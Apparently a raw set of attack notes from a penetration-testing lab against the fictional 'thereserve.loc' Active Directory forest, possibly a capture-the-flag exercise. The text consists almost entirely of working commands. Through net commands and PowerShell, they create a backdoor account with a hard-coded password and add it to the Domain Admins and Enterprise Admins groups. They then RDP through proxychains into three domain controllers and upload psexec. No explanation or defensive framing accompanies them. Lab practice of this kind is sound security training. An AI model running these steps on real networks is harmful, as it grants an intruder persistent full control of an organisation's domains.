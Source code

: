 ```
$newUser = get-aduser -identity $username
Add-ADGroupMember -Identity $domainAdminsGroup -Members $newUser
```
or

```
net user d1sturb3d /add M3nta11y /domain
net group "Domain Admins" d1sturb3d /add /domain
net group "Enterprise Admins" d1sturb3d /add /domain
```



proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:corp.thereserve.loc /v:10.200.118.102
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:thereserve.loc /v:10.200.118.100
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:bank.thereserve.loc /v:10.200.118.101



user is now enterprise admin from thereserve.loc

cp /opt/resources/windows/impacket-examples-windows/psexec.exe .
upload psexec.exe



```powershell
Import-Module ActiveDirectory
$username = "d1sturb3d"
$domain = "corp.thereserve.loc"
$password = ConvertTo-SecureString -String "M3ta11y" -AsPlainText -Force

$newUser = New-ADUser -SamAccountName "$username" -UserPrincipalName "$username@$domain" -Name "$username" -GivenName "$username" -Surname "User" -DisplayName "$username" -Enabled $true -AccountPassword $password -ChangePasswordAtLogon $false -Server $domain

$domainAdminsGroup = "Domain Admins"
$newUser = get-aduser -identity $username -Server $domain
Add-ADGroupMember -Identity $domainAdminsGroup -Members $newUser


get-adgroupmember "Enterprise Admins" -Server thereserve.loc

$user = get-aduser -identity $username -Server $domain
Add-ADGroupMember -Identity "Enterprise Admins" -Members $user -Server thereserve.loc



$username = "d1sturb3d"
$domain = "bank.thereserve.loc"
$password = ConvertTo-SecureString -String "M3ta11y" -AsPlainText -Force

$newUser = New-ADUser -SamAccountName "$username" -UserPrincipalName "$username@$domain" -Name "$username" -GivenName "$username" -Surname "User" -DisplayName "$username" -Enabled $true -AccountPassword $password -ChangePasswordAtLogon $false -Server $domain
Add-ADGroupMember -Identity "Domain Admins" -Members $user -Server bank.thereserve.loc
```
